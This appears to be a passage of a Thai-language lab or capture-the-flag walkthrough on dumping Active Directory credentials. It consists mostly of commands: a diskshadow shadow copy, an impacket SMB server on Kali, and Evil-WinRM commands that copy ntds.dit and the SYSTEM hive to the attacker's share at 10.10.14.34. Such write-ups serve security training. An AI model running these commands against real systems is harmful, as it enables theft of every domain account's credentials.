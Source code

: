 
```bash
## On Kali 
sudo apt install dos2unix
unix2dos vss.dsh
upload vss.dsh c:\programdata\vss.dsh

## On Target Windows 
diskshadow /s c:\programdata\vss.dsh
```
![](./IMG/011.png)

จากนั้นเราจะเปิด server smb สำหรับรับข้อมูลจากเป้าหมาย 

```bash
## Kali Linux
impacket-smbserver s . -smb2support -username df -password df 
```

ทำการเชื่อมต่อกลับไปที่ kali 
```powershell
# Windows Target
*Evil-WinRM* PS C:\programdata> net use \\10.10.14.34\s /u:df df
The command completed successfully.


*Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.34\s\ntds.dit

*Evil-WinRM* PS C:\programdata>Copy-FileSeBackupPrivilege z:\Windows\System32\config\SYSTEM \\10.10.14.34\s\system.hiv

*Evil-WinRM* PS C:\programdata> reg.exe save hklm\system \\10.10.14.34\system
```
